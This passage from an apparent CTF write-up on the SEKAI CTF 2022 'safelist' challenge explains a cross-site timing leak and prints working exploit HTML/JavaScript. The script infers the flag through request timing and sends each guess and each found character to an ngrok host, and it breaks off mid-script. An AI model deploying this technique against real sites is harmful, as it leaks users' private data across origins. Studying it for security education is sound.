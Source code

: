 For `SEKAI{m`, the load time is 1.7s which is much more than `z`, which means the correct char is between m to y.

![req2](/img/sekaictf2022-safelist-xsleak/p5.png)

By the way, we can use binary search to speed up the searching part.

Exploit:

https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45

``` html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
```